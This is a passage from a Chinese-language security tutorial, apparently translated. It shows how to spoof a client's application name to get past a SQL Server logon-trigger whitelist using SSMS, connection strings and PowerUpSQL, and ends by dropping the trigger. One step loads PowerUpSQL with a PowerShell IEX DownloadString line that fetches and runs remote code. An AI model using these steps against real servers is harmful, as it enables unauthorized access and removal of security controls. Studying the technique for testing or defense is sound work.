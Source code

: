

## 使用SSMS欺骗应用程序名称
<li>在SSMS中打开“Connect Object Explorer”并选择options -&gt; “Additional Connection Parameters”。在这里你可以动态地设置连接字符串属性。我们把“application name/应用程序名称”属性设置为“SuperApp3000”，这是一个白名单中的应用程序名称。<br>[![](https://p1.ssl.qhimg.com/t01eb9892fe616b4e8f.png)](https://p1.ssl.qhimg.com/t01eb9892fe616b4e8f.png)
</li>
<li>登录。如果你打开一个查询窗口并再次检查您的应用程序名称，它应该返回“SuperApp3000”。这说明我们成功地欺骗了主机名。
<pre><code class="hljs nginx"> SELECT APP_NAME()
</code></pre>
[![](https://p4.ssl.qhimg.com/t0172e94fbd167d688a.png)](https://p4.ssl.qhimg.com/t0172e94fbd167d688a.png)
</li>


## 使用连接字符串欺骗应用程序名称

正如我在上一节中提到的，应用程序可以使用名为“AppName”的连接字符串属性向SQL Server声明其应用程序名称。下面是示例。

```
Data Source=serverinstance1;Initial Catalog=Master;Integrated Security=True;  Application Name =MyApp"
Data Source=serverinstance1;Initial Catalog=Master;Integrated Security=True;  ApplicationName =MyApp"
Data Source=serverinstance1;Initial Catalog=Master;Integrated Security=True;  AppName =MyApp"

```



## 使用PowerUpSQL欺骗应用程序名称

为了演示，我已经更新了PowerUpSQL的Get-SQLQuery函数，包含了“appname”选项。下面是一个基本的例子。
<li>打开Powershell并通过你喜欢的方法加载PowerUpSQL。下面的示例演示如何直接从GitHub加载。
<pre><code class="hljs javascript">IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1")
</code></pre>
</li>
<li>PowerUpSQL函数封装.NET SQL Server函数。使用.NET连接到SQLServer时，“appname”属性默认设置为“..Net SqlClient Data Provider”。但是，由于我们创建了一个新的登录触发器，它通过“appname”来限制访问，我们应该会得到以下错误。
<pre><code class="hljs apache"> Get-SQLQuery -Verbose -Instance MSSQLSRV04SQLSERVER2014 -Query "SELECT app_name()" -ReturnError
</code></pre>
[![](https://p4.ssl.qhimg.com/t01606f099a444d2689.png)](https://p4.ssl.qhimg.com/t01606f099a444d2689.png)
</li>
<li>现在将“appname”属性设置为“SuperApp3000”，应该能够成功执行查询。
<pre><code class="hljs apache"> Get-SQLQuery -Verbose -Instance MSSQLSRV04SQLSERVER2014 -Query "SELECT app_name()" -AppName SuperApp3000
</code></pre>
[![](https://p1.ssl.qhimg.com/t01f06b145dd831af08.png)](https://p1.ssl.qhimg.com/t01f06b145dd831af08.png)
</li>
<li>要删除触发器，可以使用下面的命令。
<pre><code class="hljs sql">Get-SQLQuery -Verbose -Instance MSSQLSRV04SQLSERVER2014 -AppName SuperApp3000 -Query 'DROP TRIGGER MyAppsOnly on all server'
</code></pre>
</li>
<li>现在可以连接了，不需要欺骗应用程序名称。
<pre><code class="hljs bash"> Get-SQLQuery -Verbose -Instance MSSQLSRV04SQLSERVER2014  -Query 'SELECT APP_NAME()'
</code></pre>
[![](https://p3.ssl.qhimg.com/t0173df813727f35db7.png)](https://p3.ssl.qhimg.com/t0173df813727f35db7.png)
</li>